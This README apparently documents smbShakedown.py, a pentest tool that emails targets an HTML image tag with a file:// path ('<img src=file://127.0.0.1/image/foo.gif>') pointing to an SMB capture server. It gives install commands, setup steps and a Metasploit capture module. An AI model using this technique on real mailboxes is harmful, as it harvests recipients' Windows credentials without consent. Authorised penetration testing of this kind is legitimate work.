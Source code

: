 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    chmod +x smbShakedown.py
    python smbShakedown.py

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server.
    
    1.Configure SMTP Relay server address.
    
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses.
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally.
    EX:(smbShakedown.py script can be ran locally on one system and a SMBCapture server can be hosted somewhere else like on a VPS server.

#Internal Pentest
    1.Configure SMTP Relay server address or your own locally hosted SMTP Server. (Looking into intergrated support.)
    <Does the client's Email server support relaying?>
    
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses.
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally when testing internal network.
    (Will add in support to automatically launch MSF Console with auxiliary/server/capture/smb)

#To do:
    SMTP Anonymous Auth option
    Add smtplib error handling
    Multiple recipient address support.
    SMTP local server option
    Create forked version.
